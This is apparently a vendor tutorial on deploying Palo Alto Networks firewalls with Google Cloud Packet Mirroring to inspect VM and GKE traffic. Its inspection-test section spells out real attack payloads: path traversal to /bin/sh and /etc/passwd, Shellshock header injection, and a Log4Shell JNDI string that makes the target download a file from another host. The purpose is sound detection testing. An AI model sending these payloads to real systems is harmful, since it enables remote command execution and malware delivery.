

# Software NGFW Out-of-Band Integration

This tutorial shows how to deploy Palo Alto Networks Software Firewalls (NGFWs), to inspect Google Cloud network traffic using Packet Mirroring, an out-of-band [Network Security Integration](\(https://cloud.google.com/network-security-integration/docs/pm/out-of-band-integration-overview\)) service.

Packet Mirroring captures a copy of your network traffic, including GKE cluster traffic. The captured traffic is then forwarded to your Palo Alto Networks NGFW for deep-packet inspection and security analysis. You control the flow of mirrored traffic using [mirroring rules](https://cloud.google.com/network-security-integration/docs/out-of-band/firewall-policies-overview#mirroring-rules) configured within your Google Cloud network firewall policies.

This tutorial is intended for network administrators, solution architects, and security professionals who are familiar with [Compute Engine](https://cloud.google.com/compute) and [Virtual Private Cloud (VPC) networking](https://cloud.google.com/vpc).

> [!IMPORTANT]
> This solution is in public preview and has limited support.

## Architecture

Network Security Integration follows a *producer-consumer* model, where the *consumer* consumes services provided by the *producer*. The *producer* contains the cloud infrastructure responsible for inspecting network traffic, while the *consumer* environment encompasses the cloud resources that require this network inspection.





### Producer Components

The producer creates firewalls which serve as the backend service for an internal load balancer. For each zone requiring traffic inspection, the producer creates a forwarding rule, which is specifically configured for traffic mirroring, and links it to a *mirroring deployment*, a zone-based resource. These mirroring deployments are consolidated into a *mirroring deployment group*, which is then made accessible to the consumer.

| Component | Description |
| :---- | :---- |
| [Load Balancer](https://cloud.google.com/load-balancing/docs/internal) | An internal network load balancer that distributes traffic to the NGFWs. |
| [Mirroring Deployments](https://cloud.google.com/network-security-integration/docs/deployments-overview) | A zonal resource that points to the forwarding rule of the internal load balancer. |
| [Mirroring Deployment Group](https://cloud.google.com/network-security-integration/docs/deployment-groups-overview) | A collection of mirroring deployments that are set up across multiple zones within the same project.  It represents the firewalls as a service that consumers reference. |
| [Instance Group](https://cloud.google.com/compute/docs/instance-groups) | A managed or unmanaged instance group that contains the firewalls which enable horizontal scaling. |
#### Deployment Models

Because the internal load balancer does not support zone affinity, you must choose between keeping traffic within the same zone or enabling cross-zone mirroring. 

Zone-based mirroring ensures that traffic from a consumer is only mirrored to firewalls within the same zone as the mirroring source. Region-based mirroring allows traffic to be mirrored to any firewall within the same region regardless of the source zone.

<table>
  <tr>
    <!-- Title cell with left alignment -->
    <th colspan="2" align="left">Zone-Based</th>
  </tr>
  <tr>
    <td width="35%"></td>
    <td width="65%">
      <ol>
        <li>Deploy the firewalls to a single-zone instance group corresponding to the source zone of the mirrored traffic.</li>
        <li>Add the instance group to a backend service.</li>
        <li>Create a forwarding rule targeting the backend service.</li>
        <li>Link the forwarding rule to a mirroring deployment that matches the zone you are inspecting.</li>
        <li>Add the mirroring deployment to the mirroring deployment group.</li>
        <li><b>Repeat steps 1-5</b> for each zone requiring inspection.</li>
      </ol>
    </td>
  </tr>
  <tr>
    <!-- Title cell with left alignment -->
    <th colspan="2" align="left">Region-Based</th>
  </tr>
  <tr>
    <td width="35%"></td>
    <td width="65%">
      <ol>
        <li>Deploy the firewalls to a regional instance group matching the source region of the mirrored traffic.</li>
        <li>Add the instance group to a backend service.</li>
        <li>Create a forwarding rule targeting the backend service. </li>
        <li>Link the forwarding rule to a mirroring deployment matching the zone you wish to inspect. </li>
        <li>Add the mirroring deployment to the mirroring deployment group. </li>
        <li><b>Repeat steps 3-5</b> for each zone requiring inspection.</li>
      </ol>
    </td>
  </tr>
</table>

> [!IMPORTANT]
> The tutorial uses the **Region-Based** model.  Therefore, a forwarding rule and mirroring deployment are created for every zone within the region. Only a single firewall is deployed in this tutorial.


### Consumer Components 
The consumer creates a *mirroring endpoint group* corresponding to the producer's *mirroring deployment group*. The consumer associates the endpoint group with VPC networks slated for inspection. Mirroring rules are created in the consumer's network firewall policies to select traffic for inspection. Each mirroring rule includes a security profile that references the mirroring endpoint group.

| Component | Description |
| :---- | :---- |
| [Mirroring Endpoint Group](https://cloud.google.com/network-security-integration/docs/endpoint-groups-overview) | A project-level resource that directly corresponds to a producer's mirroring deployment group. This group can be associated with multiple VPC networks to enable traffic mirroring. |
| [Mirroring Endpoint Group Association](https://cloud.google.com/network-security-integration/docs/pm/configure-mirroring-endpoint-group-associations) | Associates the mirroring endpoint group to consumer VPCs. |
| [Mirror Rules](https://cloud.google.com/network-security-integration/docs/pm/out-of-band-integration-overview#firewall_policies_and_rules) | Exists within Network Firewall Policies and select traffic to be mirrored for inspection by the producer. |
| [Security Profiles](https://cloud.google.com/network-security-integration/docs/security-profiles-overview) | Reference a mirroring endpoint group and are set as the action within mirroring rules. |


### Traffic Flow


1. A network firewall policy containing mirroring rules is associated to `vpc1`.
2. Traffic matching a mirroring rule is encapsulated to the `mirroring endpoint group` defined by the `security profile` within the mirroring rule.
3. The `mirroring endpoint group` forwards the traffic to the producer's `mirroring deployment group`.  
4. The `mirroring deployment group` forwards traffic to the `mirroring deployment` located in the same zone as the source of the traffic.
5. The internal load balancer distributes traffic across the NGFWs  
6. The firewalls perform deep packet inspection on the mirrored packets.

> [!NOTE] 
> The *mirroring deployment group* sends mirrored traffic to the *mirroring deployment* in the same zone as the mirroring source.

---

## Requirements

The following is required for this tutorial:

1. A Google Cloud project.  
2. A machine with Terraform version:`"~> 1.7"`

> [!NOTE] 
> This tutorial deploys the producer & consumer environments separately.  This enables you to use your own consumer environment if desired.

## Create the Producer Environment

Use the provided terraform plan (in `producer` directory) to create the firewall’s VPCs, instance template, instance group, internal load balancer, mirroring deployment, and mirroring deployment group. 

> [!TIP]
> It is recommended to deploy the producer resources to a dedicated Google Cloud project.  This ensures the security services offered by the producer are managed independently of the consumer.

1. In [Cloud Shell](https://shell.cloud.google.com), clone the repository and change directories to `/producer`. 

    ```
    git clone https://github.com/PaloAltoNetworks/google-cloud-packet-mirroring-tutorial
    cd google-cloud-packet-mirroring-tutorial/producer
    ```

2. Create a `terraform.tfvars` file from `terraform.tfvars.example`.

    ```
    cp terraform.tfvars.example terraform.tfvars
    ```

3. Edit the `terraform.tfvars` file and set values for the following variables:

    | Key              | Value                                                                                                                | Default                                    | 
    | ---------------- | -------------------------------------------------------------------------------------------------------------------- | ------------------------------------------ |
    | `project_id`     | The Google Cloud project ID of the producer environment.                                                           | `null`                                     |
    | `mgmt_allow_ips` | A list of IPv4 addresses which have access to the firewall's mgmt interface.                                         | `["0.0.0.0/0"]`                            |
    | `region`         | A region to deploy the producer resources.  This should be the same region as the resources you wish to inspect.   | `us-west1`                                 |


4. (BYOL only) If you are using a BYOL image (i.e. <code>vmseries-flex-<b>byol</b>-*</code>):
    1.  Create an authcode from the [CSP](https://support.paloaltonetworks.com).
    2.  Add the generated authcode (i.e. `D012345`) to `bootstrap_files/authcodes`.
        > Adding the authcode to `authcodes` file automatically licenses the firewalls during deployment. 

5. Initialize and apply the terraform plan.

    ```
    terraform init
    terraform apply
    ```

6. After the apply completes, terraform displays the following message:

    <pre>Apply complete!

    Outputs:

    <b>MIRRORING_DEPLOYMENT_GROUP</b> = "projects/PROJECT_ID/locations/global/mirroringDeploymentGroups/panw-mdg"</pre>

> [!CAUTION]
> Record the `mirroring_deployment_group` output.  The consumer needs this value to associate the mirroring deployment group with the mirroring endpoint.

---

## Firewall Configuration

Access the firewall and enable Geneve inspection.  Then, download content packs to the firewall and set a password for the firewall's default username. 

1. In Cloud Shell, set the firewall's name and zone to environment variables, `FW_NAME` and `FW_ZONE`.

    ```
    read FW_NAME FW_ZONE <<< $(gcloud compute instances list --filter="tags.items=panw-tutorial" --format="value(name, zone)")
    ```

2. Copy and paste the command below to SSH into the firewall using `gcloud`. 

    ```
    gcloud compute ssh admin@$FW_NAME --zone=$FW_ZONE
    ```

3. On the firewall, enable the firewall to inspect mirrored traffic. 

    ```
    request plugins vm_series gcp ips inspect enable yes
    ```

4. Check for and download the latest content pack. 

    ```
    request content upgrade check
    request content upgrade download latest
    ```

5. Verify the content pack is downloaded before proceeding.


    ```
    request content upgrade info
    ```

    (output)
    <pre>Version               Size              Released on Downloaded  Installed
    -------------------------------------------------------------------------
    8919-9103             93MB  2024/12/02 13:32:19 PST        <b>yes</b>         no</pre>

    > Content updates can be automatically installed during firewall deployment via [bootstrapping](https://docs.paloaltonetworks.com/vm-series/11-1/vm-series-deployment/bootstrap-the-vm-series-firewall/prepare-the-bootstrap-package). 

6. Install the latest content pack. 

    ```
    request content upgrade install version latest
    ```


7. Enter configuration mode. 

    ```
    configure
    ```

8. Set a password for the `admin` username.

    ```
    set mgt-config users admin password
    ```

9. Commit the changes.

    ```
    commit
    ```

10. Enter `exit` twice exit configuration mode and close the session.  
     
11. In Cloud Shell, retrieve the management address of the firewall. 

    ```
    gcloud compute instances list \
        --filter='tags.items=(panw-tutorial)' \
        --format='value(EXTERNAL_IP)'
    ```

12. Access the firewall's web interface using the management address. 

    <pre>https://<b><i>MGMT_ADDRESS</i></b></pre>

---

## Create Consumer Environment

If you do not have an existing consumer environment, use the provided terraform plan (within the `consumer` directory) to create one.  The terraform plan creates a VPC (`consumer-vpc`) , two debian VMs (`client-vm` and `web-vm`), and a GKE cluster (`cluster1`).

> [!NOTE] 
> If you already have an environment that you want to apply security inspection, skip to [Create Mirroring Endpoint Group](#create-mirroring-endpoint-group).

1. In Cloud Shell, change to the `consumer` directory.

    ```
    cd ..
    cd google-cloud-packet-mirroring-tutorial/consumer
    ```

2. Create a `terraform.tfvars` file from `terraform.tfvars.example`.

    ```
    cp terraform.tfvars.example terraform.tfvars
    ```

3. In the `terraform.tfvars` file, set values for the following variables:  

    | Variable           | Description                                                                                                   | Default         |
    | ------------------ | ------------------------------------------------------------------------------------------------------------- | --------------- |
    | `project_id`       | The project ID of the consumer environment.                                                                 | `null`          |
    | `mgmt_allowed_ips` | A list of IPv4 addresses that can access the VMs on `TCP:80,22`.                                              | `["0.0.0.0/0"]` |
    | `region`           | The region to deploy the consumer resources.                                                                | `us-west1`   |
    | `zone`             | The zone to deploy the workload VMs.  This zone should match the zone of the producer's mirroring deployment. | `us-west1-a` |

4. Initialize and apply the terraform plan.

    ```
    terraform init
    terraform apply
    ```

6. After the apply completes, terraform displays the following message:

    ```
    Apply complete!

    Outputs:

    SET_ENV_VARS = <<EOT

    export PROJECT_ID=your-project-id
    export CONSUMER_VPC=consumer-vpc
    export REGION=us-west1
    export CLUSTER=cluster1

    EOT
    ```


### Create Mirroring Endpoint Group
Create a mirroring endpoint group and associate it with the producer's mirroring deployment group.  Then, associate the mirroring endpoint group with the consumer's VPC networks.

1. In Cloud Shell, set an environment variables for the following:

    Your consumer's project ID. 

    <pre><code>export CONSUMER_PROJECT=<b><i>CONSUMER PROJECT ID</i></b></code></pre>
    
    Your producer's project ID. 

    <pre><code>export PRODUCER_PROJECT=<b><i>PRODUCER PROJECT ID</i></b></code></pre>

    The name of the producer's mirroring deployment group. 

    <pre><code>export MIRROR_DEPLOYMENT_GROUP=<b><i>panw-mdg</i></b></code></pre>

    Your deployment region. 

    <pre><code>export REGION=<b><i>us-west1</i></b></code></pre>

2. Copy and paste the command below to set an environment variable for your organization ID`.

    <pre><code>export ORG_ID=$(gcloud projects describe $CONSUMER_PROJECT --format=json | jq -r '.parent.id')</code></pre>

3. Create a mirroring endpoint group which references the producer's mirroring deployment group.

    <pre><code>gcloud beta network-security mirroring-endpoint-groups create <b><i>panw-epg</i></b> \
        --mirroring-deployment-group $MIRROR_DEPLOYMENT_GROUP \
        --project $CONSUMER_PROJECT \
        --location global \
        --no-async</code></pre>

4. Associate the mirroring endpoint group with the VPC network (`consumer-vpc`) you wish to inspect. 

    <pre><code>gcloud beta network-security mirroring-endpoint-group-associations create <b><i>panw-epg-assoc</i></b> \
        --mirroring-endpoint-group <b><i>panw-epg</i></b> \
        --network <b><i>consumer-vpc</i></b> \
        --project $CONSUMER_PROJECT \
        --location global \
        --no-async</code></pre>
    
### Create Mirroring Rules
Create a network firewall policy with mirroring rules.  Create security profile that references the mirroring endpoint group and attach the profile to each mirroring rule. 

> [!NOTE] 
> Both security profiles and security profile groups are organizational-level resources.

1. Create a network firewall policy.

    <pre><code>gcloud compute network-firewall-policies create <b><i>consumer-policy</i></b> \
        --project $CONSUMER_PROJECT \
        --global</code></pre>

2.  Create `CUSTOM_MIRRORING` security profile that references the mirroring endpoint group and add the profile to a security profile group.

    <pre><code>gcloud beta network-security security-profiles custom-mirroring create <b><i>panw-sp</i></b> \
        --mirroring-endpoint-group <b><i>panw-epg</i></b> \
        --billing-project $CONSUMER_PROJECT \
        --organization $ORG_ID \
        --location global
    
    gcloud beta network-security security-profile-groups create <b><i>panw-spg</i></b> \
        --custom-mirroring-profile <b><i>panw-sp</i></b> \
        --billing-project $CONSUMER_PROJECT \
        --organization $ORG_ID \
        --location global</code></pre>

3. Create mirroring rules that reference the security profile group to mirror all `INGRESS` & `EGRESS` traffic.

    <pre><code>gcloud beta compute network-firewall-policies mirroring-rules create <b><i>10</i></b> \
        --action mirror \
        --firewall-policy <b><i>consumer-policy</i></b> \
        --global-firewall-policy \
        --security-profile-group organizations/$ORG_ID/locations/global/securityProfileGroups/<b><i>panw-spg</i></b> \
        --layer4-configs all \
        --src-ip-ranges 0.0.0.0/0 \
        --dest-ip-ranges 0.0.0.0/0 \
        --direction INGRESS

    gcloud beta compute network-firewall-policies mirroring-rules create <b><i>11</i></b> \
        --action mirror \
        --firewall-policy <b><i>consumer-policy</i></b> \
        --global-firewall-policy \
        --security-profile-group organizations/$ORG_ID/locations/global/securityProfileGroups/<b><i>panw-spg</i></b> \
        --layer4-configs all \
        --src-ip-ranges 0.0.0.0/0 \
        --dest-ip-ranges 0.0.0.0/0 \
        --direction EGRESS</code></pre>

5. Associate the network firewall policy to the consumer VPC network.

    <pre><code>gcloud compute network-firewall-policies associations create \
        --name <b><i>consumer-policy-assoc</i></b> \
        --global-firewall-policy \
        --firewall-policy <b><i>consumer-policy</i></b> \
        --network <b><i>consumer-vpc</i></b> \
        --project $CONSUMER_PROJECT</code></pre>

---

## Test Inspection
Test inspection by generating pseudo-malicious traffic between VMs and also between VMs and the internet.  Then, generate pseudo-malicious traffic within the GKE cluster (`cluster1`) to test pod-to-pod inspection. 

### GCE Inspection 
Generate pseudo-malicious traffic from the `client-vm` (10.1.0.10) to the `web-vm` (10.1.0.20) and also to the internet. 

1. In Cloud Shell, set an environment variable to a script that generates pseudo-malicious traffic to the internet and between the `client-vm` and `web-vm`. 

    ```
    REMOTE_SCRIPT='
    curl http://10.1.0.20:80/?[1-10] 
    ns1=$(curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh --data "echo Content-Type: text/plain; echo; uname -a" --max-time 2)
    ns2=$(curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2)
    ns3=$(curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd --max-time 2)
    ew1=$(curl -w "%{http_code}\n" -s -o /dev/null http://10.1.0.20/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh --data "echo Content-Type: text/plain; echo; uname -a" --max-time 2)
    ew2=$(curl -w "%{http_code}\n" -s -o /dev/null http://10.1.0.20/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2)
    ew3=$(curl -w "%{http_code}\n" -s -o /dev/null http://10.1.0.20/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd --max-time 2)
    echo ""'
    ```

2. Retrieve teh VM name and zone of the `client-vm`.

    ```
    read VM_ZONE <<< $(gcloud compute instances list --filter="tags.items=client-vm" --format="value(zone)")
    ```

2. Execute the remote script on the `client-vm` to simulate the malicious traffic. 

    ```
    gcloud compute ssh client-vm \
        --zone=$VM_ZONE \
        --tunnel-through-iap \
        --command="bash -c '$REMOTE_SCRIPT'"
    ```
 
3. On the firewall, go to **Monitor → Threat** to confirm the firewall detected the threats between the `client-vm` (10.1.0.20) and `web-vm` (10.1.0.10) and also to the internet.

    


### GKE Inspection
Test pod-to-pod inspection within the GKE cluster (`cluster1`).  

> [!TIP]
> When a GKE cluster has [intranode visibility](https://cloud.google.com/kubernetes-engine/docs/how-to/intranode-visibility) enabled, traffic passing between pods on the same GKE node can be inspected by the NGFWs. Intranode visibility ensures pod-to-pod traffic is processed by the cluster's VPC network.  This feature is disabled by default on standard clusters, but can be enabled on [existing clusters](https://cloud.google.com/kubernetes-engine/docs/how-to/intranode-visibility#enable_intranode_visibility_on_an_existing_cluster). 


1. In Cloud Shell, authenticate to the GKE cluster (`cluster1`).

    <pre><code>gcloud container clusters get-credentials <b><i>cluster1</i></b> --region <b><i>$REGION</i></b></code></pre>

2. In Cloud Shell, create a `prd` and `dev` namespace.

    ```
    kubectl create namespace prd
    kubectl create namespace dev
    ```

3. Deploy a `victim` pod to the `prd` namespace and an `attacker` pod to the `dev` namespace.

    ```
    kubectl apply -n prd -f https://raw.githubusercontent.com/PaloAltoNetworks/google-cloud-packet-mirroring-tutorial/main/consumer/yaml/victim.yaml
    kubectl apply -n dev -f https://raw.githubusercontent.com/PaloAltoNetworks/google-cloud-packet-mirroring-tutorial/main/consumer/yaml/attacker.yaml
    ```


4. Create two environment variables that contain the addresses of the `victim` and `web-app` pods.

    ```
    export VICTIM_POD=$(kubectl get pod victim -n prd --template '{{.status.podIP}}');
    export WEB_POD=$(kubectl get pod web-app -n prd --template '{{.status.podIP}}');
    echo $WEB_POD;
    echo $VICTIM_POD;
    ```

5. Pass environment variables to the `attacker` pod. 

    ```
    kubectl exec -it attacker -n dev -- /bin/bash -c "echo VICTIM_POD=$VICTIM_POD | tee -a ~/.bashrc; echo WEB_POD=$WEB_POD | tee -a ~/.bashrc"; 
    ```

6. Open a remote session with the `attacker` pod. 

    ```
    kubectl exec -it attacker -n dev -- /bin/bash
    ```

7. Generate threats from the `attacker` pod to the `web-app` and `victim` pod.

    ```
    curl $VICTIM_POD:8080 -H 'X-Api-Version: ${jndi:ldap://attacker-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
    ```
    (output)
    <pre>Hello World!</pre>

8. On the firewall, go to **Monitor → Threat** to view the threat between the `attacker` and `victim` pods (both pods fall within the `10.20.0.0/16` space)

    

## Delete Resources

### Delete Consumer Resources

1. Delete the network firewall policy, security profile, security profile group, and endpoint group, and endpoint group association. 

    ```
    gcloud compute network-firewall-policies associations delete \
        --project=$CONSUMER_PROJECT \
        --name=consumer-policy-assoc \
        --firewall-policy=consumer-policy \
        --global-firewall-policy

    gcloud compute network-firewall-policies delete consumer-policy \
        --project=$CONSUMER_PROJECT \
        --global

    gcloud beta network-security security-profile-groups delete panw-spg \
        --organization $ORG_ID \
        --location=global \
        --quiet

    gcloud beta network-security security-profiles custom-mirroring delete panw-sp \
        --organization $ORG_ID \
        --location=global \
        --quiet

    gcloud beta network-security mirroring-endpoint-group-associations delete panw-epg-assoc \
        --project $CONSUMER_PROJECT \
        --location global \
        --no-async

    gcloud beta network-security mirroring-endpoint-groups delete panw-epg \
        --project $CONSUMER_PROJECT \
        --location global \
        --no-async
    ```

2. Run `terraform destroy` from the `/consumer` directory.

    ```
    cd ..
    cd google-cloud-packet-mirroring-tutorial/consumer
    terraform destroy
    ```

3. Enter `yes` to delete all consumer resources.

### Delete Producer Environment

1. Run `terraform destroy` from the `/producer` directory.

    ```
    cd ..
    cd google-cloud-packet-mirroring-tutorial/producer
    terraform destroy
    ```

2. Enter `yes` to delete all producer resources.
